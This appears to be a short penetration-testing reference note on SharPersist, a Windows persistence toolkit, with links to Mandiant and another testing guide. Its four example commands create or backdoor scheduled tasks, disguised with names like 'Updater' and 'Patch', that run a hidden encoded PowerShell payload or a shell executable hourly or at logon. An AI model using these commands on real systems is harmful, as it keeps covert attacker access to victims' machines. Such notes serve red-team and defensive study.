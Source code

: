 # Binaries

## 01 - SharPersist

```
C:\> SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc <base64_encoded>" -n "Updater" -m add -o hourly

C:\> SharPersist.exe -t schtask -c "C:\Windows\System32\cmd.exe" -a "/c C:\path\to\shell.exe" -n "Patch" -m add -o logon

C:\> SharPersist.exe -t schtaskbackdoor -c "C:\Windows\System32\cmd.exe" -a "/c C:\path\to\shell.exe" -n "Patch" -m check

C:\> SharPersist.exe -t schtaskbackdoor -m list -o logon
```

---
## References

### Backlinks

- [[Windows Post Exploitation Persistence References]]

### Mandiant

- [Mandiant: SharPersist Windows Persistence Toolkit](https://www.mandiant.com/resources/sharpersist-windows-persistence-toolkit)

### N7W Era

- [N7W Era Infrastructure Penetration Testing Notes: SharPersist](https://infra.newerasec.com/infrastructure-testing/tools/sharppersist)